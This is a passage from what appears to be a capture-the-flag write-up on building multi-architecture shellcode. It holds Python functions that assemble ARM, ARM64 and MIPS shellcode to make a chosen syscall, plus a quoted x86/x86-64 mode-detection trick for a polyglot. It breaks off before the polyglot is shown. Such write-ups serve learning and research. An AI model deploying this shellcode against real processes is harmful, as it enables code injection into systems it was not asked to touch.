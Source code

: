 ```python

# movw only works with 16 bit operands (arg1 is sometimes larger)
def make_shellcode_arm(syscall, arg1, arg2):
    def push_val(v):
        return rasm_arm("movw r0, %d; movt r0, %d; push {r0};" % (v & 0xffff, v >> 16))
    assert arg1 < 2**16
    code = push_val(u32(arg2[4:].ljust(4, '\0')))
    code += push_val(u32(arg2[:4]))
    code += rasm_arm("""
    movw r7, {syscall} 
    movw r0, {arg1}
    mov r1, sp
    svc 0
    """.format(syscall=syscall, arg1=arg1))
    return code

# For some reason (this took me quite a while to figure out), the arm64 shellcode does not seem to have a stack...
# Hence, I append the string to the code and load its address with the "adr" instruction
def make_shellcode_arm64(syscall, arg1, arg2):
    s = "adr x1, 16; movz x8, {syscall}; movz x0, {arg1}; svc 0".format(syscall=syscall,arg1=arg1)
    return rasm_arm64(s) + " " + arg2.ljust(8, "\0")

# Here I remembered the gloriousness that is pwntools
def make_shellcode_mips(syscall, arg1, arg2):
    context.arch = "mips"
    code_mips = asm(shellcraft.pushstr(arg2) +
                    shellcraft.syscall(syscall, arg1, "$sp"))
    return code_mips
```

## Polyglot x86/x86-64

I got this from https://stackoverflow.com/a/50978334:

```nohighlight
get_mode:
        mov eax, 1
        dec eax
        test eax, eax
        ret

In 64-bit mode, dec eax becomes the REX.W prefix for the test instruction.
Thus, this code returns 0 when run in 32-bit mode and returns 1 when run in 64-bit mode.
It also sets Z accordingly, so it can be used from another assembly language function like this:

    call get_mode
    jnz mode64
```

From this I construct the polyglot:
